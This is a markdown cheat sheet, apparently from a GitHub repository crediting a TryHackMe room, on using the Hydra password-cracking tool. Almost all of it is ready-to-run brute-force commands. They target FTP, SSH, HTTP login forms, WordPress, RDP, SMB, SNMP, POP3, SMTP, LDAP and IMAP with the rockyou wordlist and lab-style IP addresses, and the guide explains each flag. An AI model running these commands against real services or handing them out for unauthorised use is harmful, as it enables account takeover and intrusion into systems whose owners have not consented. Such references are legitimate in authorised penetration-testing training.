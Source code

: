 # Hydra User Guide

* All credit goes to: DarkStar7471 for his THM room located here : https://tryhackme.com/room/hydra
* Hydra is a brute force online password cracking tool, which can be used with a variety of protocols
* Protocols that hydra can work with: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
* Official kali page:
* https://en.kali.tools/?p=220
* Download it (default on kali):
* https://github.com/vanhauser-thc/thc-hydra

## Hydra Syntax

* The correct hydra syntax is depended upon the service you are going after. For example if we want to hit ftp we should use:

## FTP

```
hydra -l user -P passlist.txt ftp://10.10.10.10
```

## SSH

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
```

* `-l` is to specify the username
* `P` is to specify a password list
* `-t` is to specify the number of threads to run hydra with.
* Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.

## POST Web Form

* Hydra can be used to brute force web logins as well.
* Step 1: Determine the request made to the form (POST/GET)
* Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
* Syntax:

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
```

* `http-post-form` specifies the type of form
* `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
* `:username` the form field name for the username
* `^USER^` this tells hydra to use the username you specified
* `password` the form field name for the password
* `^PASS^` the password list specified in the command
* `Login` the failed login message
* `Login failed` is the login failure message that the form specifies
* `F=inncorrect` the word that appears on the page if the login fails
* `-vV` specifies very verbose output
* Hydra non default ssh port:

```
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
```

## Example Syntax

```
#Hydra brute force against SNMP
hydra -P password-file.txt -v $ip snmp	
#Hydra FTP known user and rockyou password list
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp	
#Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh	
#Hydra SSH using a known password and a username list
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
#Hydra SSH Against Known username on port 22
hydra $ip -s 22 ssh -l -P big_wordlist.txt	
#Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
#Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V	
#Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin	
#Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
#Hydra brute force SMB user with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
#Hydra brute force a Wordpress admin
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	 login
#SMB Brute Forcing
hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
#LDAP Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
```

## Additional Syntax Formats

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
hydra -l lazie -P /opt/rockyou.txt imap://10.10.251.142 -vV
```
